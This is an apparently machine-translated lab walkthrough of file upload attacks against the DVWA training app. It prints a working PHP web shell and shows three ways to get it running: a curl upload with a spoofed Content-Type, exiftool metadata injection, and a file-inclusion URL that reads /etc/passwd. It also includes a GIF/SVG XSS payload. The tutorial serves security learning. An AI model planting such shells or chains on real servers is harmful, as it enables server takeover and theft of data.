





# 无限制的文件上传:HackerOne 上一个潜在收益很高的常见 Bug！—堆栈零

> 原文：<https://infosecwriteups.com/unrestricted-file-upload-a-common-bug-with-a-high-potential-revenue-on-hackerone-stackzero-dcf71e56e48b?source=collection_archive---------2----------------------->


> 本文原载于[https://www . stack zero . net/unrestricted-file-upload-vulnerability/](https://www.stackzero.net/unrestricted-file-upload-vulnerability/)

文件上传漏洞也称为无限制文件上传或任意文件上传，是一种潜在的安全风险，它允许攻击者将恶意文件上传到 web 服务器。
当应用程序没有正确验证文件类型或其内容时，就会出现这种情况。通过这种方式，攻击者可能能够上传危及服务器安全的文件。
上传的文件通常是一个后门，一旦攻击者知道服务器的技术，一些 Kali Linux 工具如 msfvenom 可以很容易地生成这个后门。

# 什么是文件上传 XSS？

一个常见的问题是“什么是文件上传 xss”，答案是它与我们所说的没有太大的不同！

对于文件上传 XSS，目标是运行上传脚本的客户端。

但是再补充一点细节:

文件上传[跨站点脚本](https://www.stackzero.net/xss/) (XSS)攻击是一种 web 应用程序攻击，当攻击者将恶意文件上传到以某种方式反映脚本的网站时，就会发生这种攻击。
脚本可以插入不同的地方:

*   文件名:一些应用程序显示文件名，如果没有适当的转义，它可能是一个工作脚本。
*   文件包含:攻击者可以直接上传包含脚本的恶意 HTML，正如我们在 [CSRF 的例子](https://www.stackzero.net/csrf-dvwa/)中所做的那样。
*   来源:GIF 文件可以包含一个脚本在其来源，如果你用这种方式创建图像:`GIF89a/*<svg/onload=alert(1)>*/=alert('You have been hacked!')//;`

还有其他方法可以做到这一点，比如利用 SVG 结构或元数据。如果你想了解细节，我建议你阅读这篇写得很好的文章。

[](/reflected-xss-dvwa-an-exploit-with-real-world-consequences-stackzero-171cfb2d87d2) [## 反映 XSS DVWA-一个利用现实世界的后果-堆栈零

### 一步一步的演练在 DVWA 中反射 XSS(跨站点脚本)，尝试利用它与所有级别的…

infosecwriteups.com](/reflected-xss-dvwa-an-exploit-with-real-world-consequences-stackzero-171cfb2d87d2) 

# 文件上传漏洞有什么影响？

根据上传文件的性质和服务器处理文件的方式，文件上传漏洞可能会产生几种不同的影响。攻击者可以上传一个恶意文件，让他能够接管服务器、窃取数据或破坏网站。
通过进行适当的侦察，了解服务器技术的攻击者可以准备一个恶意脚本，让他获得服务器上的外壳。
但我们也看到了，这不仅仅是服务器的风险，因为它可以上传一个 XSS 脚本，带来我们在[这篇文章](https://www.stackzero.net/xss/)中看到的 XSS 的所有危险。

# 如何防止文件上传漏洞？

可以采取几个步骤来防止文件上传漏洞:

*   在接受上传的文件之前，验证其文件类型和内容。
*   不要接受来自不可信来源的文件。
*   将上传的文件存储在安全的位置。
*   确保上传的文件不能被服务器执行。
*   确保只有授权用户才能访问上传的文件。

# 无限制文件上传漏洞的一个实例

正如我们在前面的段落中看到的，此漏洞允许我们上传文件。
在本教程中，我们将上传一个简单的 PHP 后门，我们还必须依靠另一个常见的漏洞:
文件包含漏洞。

# 什么是文件包含漏洞？

在继续之前，我想用几句话澄清一下这个漏洞是什么。

**文件包含漏洞**是一种安全缺陷，允许攻击者在服务器上包含一个文件，通常包含恶意代码，然后被执行。这可以通过利用目录遍历漏洞或文件上传漏洞来实现。

我将专门写另一篇文章来讨论这个漏洞，但目前我们只需要知道这些。

[](/how-to-exploit-csrf-in-dvwa-stackzero-bf1b6b557d85) [## 如何利用 DVWA 中的 CSRF—stack zero

### 本教程将向您展示如何利用 DVWA 中的 CSRF 漏洞。你将学习一些注射的技巧…

infosecwriteups.com](/how-to-exploit-csrf-in-dvwa-stackzero-bf1b6b557d85) 

# 步骤 0:武器化

我们已经知道 DVWA 背后的技术，所以我们只需要得到正确的有效载荷。同样，在这种情况下，我们有两种可能性，这取决于我们的目标是:

*   计算机网络服务器
*   客户

在客户机作为目标的情况下，我们可以获得一个 Javascript 有效载荷。
然而，在本教程中，我们将通过上传然后执行一个简单的后门来攻击服务器。

您可以自由地获得您想要的有效负载，也许还可以使用您的 [Kali Linux](https://www.stackzero.net/how-to-install-kali-linux-on-virtualbox-in-a-few-minutes/) 实例中的 Metasploit 来生成它。在我的例子中，只是作为概念的证明，我将从[这个库](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php)上传这个简单的 PHP 后门。

```
 <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

所以让我们将代码保存在一个名为“backdoor.php”的文件中。

开始我们的黑客活动之前的最后一步是运行 [DVWA](https://github.com/digininja/DVWA) 的实例，正如我在许多演练中所做的那样，我将使用 [TryHackMe](https://tryhackme.com/room/dvwa) 上的实例，但是您也可以在 VM 中运行您的实例。

使用这些凭据登录后:

*   **用户名**:管理员
*   **密码**:密码


进入设置，将难度设置为“低”。


我们完了。让我们点击“文件上传”。

# 步骤 DVWA 低安全性中的文件上传漏洞

第一个层次非常简单，你只需要:

*   点击浏览器
*   在你的本地机器中搜索你的后门并选择它
*   点击上传。

如果一切正常，您应该会看到如下内容:



此时，我们已经准备好通过键入文件的 URL 从浏览器运行命令:

`[http://10.10.234.80/hackable/uploads/backdoor.php?cmd=OUR_COMMAND](http://10.10.234.80/hackable/uploads/backdoor.php?cmd=OUR_COMMAND)`

其中“10.10.234.80”是目标机器的 IP 地址。
例如，如果我们想显示 passwd 文件的内容，我们只需键入:

`[http://10.10.234.80/hackable/uploads/backdoor.php?cmd=cat+/etc/passwd](http://10.10.234.80/hackable/uploads/backdoor.php?cmd=cat+/etc/passwd)`



成功了，我们可以进入下一关了，所以把难度设为中等，开始读下一段。

# 步骤 DVWA 中等安全性中的文件上传漏洞

在这一级，有一种过滤器不允许我们像上一级那样上传文件。

特别是，服务器检查名为“Content-type”的报头。好消息是我们可以创建一个请求并设置头部。
也许在我之前的教程中，你已经看到了如何用 python 做到这一点。这一次我想通过在 Kali 机器上使用我们的终端向你展示一个非常快速的方法，然而，没有人阻止你用 python 做这件事！

首先，我们需要检查上传文件的表单(在 Firefox 中右键+ Inspect)，这就是结果！

```
<form enctype="multipart/form-data" action="#" method="POST">
   <input type="hidden" name="MAX_FILE_SIZE" value="100000">
   Choose an image to upload:<br><br>
   <input name="uploaded" type="file"><br>
   <br>
   <input type="submit" name="Upload" value="Upload">

</form>
```

所以我们能收集到的信息是:

*   该操作指向同一页面
*   HTTP 方法是 [POST](https://en.wikipedia.org/wiki/POST_(HTTP))
*   这两个字段是名为“uploaded”的文件和名为“upload”的提交

我们需要发出请求的另外两个参数是 cookies:

*   难度饼干
*   会话 cookie

我们可以在 Firefox 浏览器中使用 SHIFT+F9 来获得它们，这或多或少就是我们得到的结果:


现在我们已经拥有了编写命令所需的一切，但是在此之前，让我们在有效负载所在的目录中打开一个终端。

之后，只需通过键入以下命令调用 [curl](https://curl.se/) :

```
curl -v --cookie "PHPSESSID=62ki64m566q3hu5neu99n66iq7;security=medium" -F Upload=Upload -F 'uploaded=@backdoor.php;type=image/png' http://10.10.234.80/vulnerabilities/upload/ | grep succesfully
```

让我们示意性地解释一下 bash 行的亮点:

*   curl 是一个命令行工具，可用于向服务器传输数据或从服务器传输数据。
*   F 选项允许我们以多部分的形式指定参数。
*   这个特殊的命令将文件“backdoor.php”传输到服务器。
*   我们正在发送 cookie“PHPSESSID = 62 ki 64m 566 q 3 Hu 5 neu 99n 66 IQ 7；security=medium”以及文件。我们需要它来设置安全性，并在上传前登录。
*   “grep succesfully”命令将在 curl 命令的输出中搜索单词“successfully”。这样做是为了验证文件是否上传成功。

而且命令很好用！



现在我们只需要输入包含我们命令的 URL:

`[http://10.10.234.80/hackable/uploads/backdoor.php?cmd=cat+/etc/passwd](http://10.10.234.80/hackable/uploads/backdoor.php?cmd=cat+/etc/passwd)`

我们可以再次看到文件输出！


我们准备好最后一步了，把难度设高，看下一段！

# 步骤 DVWA 高安全性中的文件上传漏洞

我们已经到了最后一步，无论我们在前面几关尝试了什么，在这里都不起作用了！
这次我们想用 php 执行文件，但是我们可以只上传图片。
我们将使用的一个技巧是改变随机图像中的元数据，并强制服务器将其作为文件读取。

第一步是使用 [**exiftool**](https://exiftool.org/) 通过在我们的 Kali linux 终端上键入以下代码来更改带有后门代码的 DocumentName:

`exiftool -DocumentName="$(cat backdoor.php)" image.jpeg`

其中“*image.jpeg*”是随机的 jpeg 图像，“*backdoor.php*”是我们之前见过的后门。

现在，如果我们检查元数据，用:

`exiftool image.jpeg`

输出应该如下所示:



现在我们可以上传文件了，一切顺利，但是服务器将它解释为图像，所以我们需要更进一步。

为了执行我们的脚本，我们需要将它与另一个漏洞链接起来，以某种方式，服务器将反映文件的内容，包括元数据。
我选择了文件包含漏洞，但在此之前，我们应该记住，linux 服务器中 web 应用程序的默认目录是:

`/var/www/html`

我们认为这对我们来说是一样的。
因此，让我们切换到文件包含部分，并尝试粘贴此地址(用您的目标地址替换 ip 地址)。

`[http://10.10.253.73/vulnerabilities/fi/?page=file:///var/www/html/hackable/uploads/image.jpeg&cmd=cat+/etc/passwd](http://10.10.253.73/vulnerabilities/fi/?page=file:///var/www/html/hackable/uploads/image.jpeg&cmd=cat+/etc/passwd)`

它使用 get 变量“page”来选择一个文件，没有过滤器，我们可以在整个服务器上移动。
我们还附加了这个命令作为变量，这是从我们的后门获取的！

此时，服务器将加载图像，我们将看到这一点！

[](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf) [## 打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 1 部分)

### 我将尝试向您展示如何从头构建一个漏洞及其优点。

infosecwriteups.com](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf) 

# 结论

正如我们所见，这种漏洞可能非常危险！
当与其他漏洞连接在一起时，它通常会达到其最大的潜在严重性，例如(文件包含)。

我的建议是作为一个 bug 猎人多练习，因为它可以很好的报酬！我还建议你进一步调查，也许插入一个更复杂的后门，打开一个交互式外壳。
作为开发者，注意你应用上的这个漏洞！

我希望你欣赏我的工作，如果你喜欢它，你可以继续关注我的博客和我所有的社交网站！

下一篇文章再见！

如果你想订阅 Medium，可以考虑使用我的推荐链接，这对你来说不是额外的费用，但对我来说是一个很大的帮助。

[](https://medium.com/@stackzero/membership) [## 用我的推荐链接加入媒体- StackZero

### 我们的最新报道(以及数以千计的其他报道)一经发布，您就可以立即获得。成为会员后，您将获得所有权限…

medium.com](https://medium.com/@stackzero/membership) 

*原载于 2022 年 11 月 29 日 https://www.stackzero.net*[](https://www.stackzero.net/unrestricted-file-upload-vulnerability/)**。**

## *来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)，以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*